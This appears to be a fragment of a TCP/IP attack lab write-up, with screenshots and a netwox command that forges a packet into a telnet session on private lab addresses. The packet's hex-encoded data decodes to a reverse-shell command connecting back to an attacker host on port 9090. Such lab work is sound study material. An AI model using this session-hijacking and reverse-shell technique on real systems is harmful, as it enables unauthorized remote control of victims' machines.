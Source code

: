 ![image-20220309093506245](TCPIPAttackLab/image-20220309093506245.png)

```bash
sudo netwox 40 --ip4-src 192.168.136.132 --ip4-dst 192.168.136.136 --tcp-src 41758 --tcp-dst 23 --tcp-seqnum 1028117725 --tcp-acknum 830188691 --tcp-window 501 --tcp-data '0d202f62696e2f62617368202d69203e202f6465762f7463702f3139322e3136382e3133362e3133302f3930393020323e263120303c2631200d'
```

![image-20220309092810780](TCPIPAttackLab/image-20220309092810780.png)
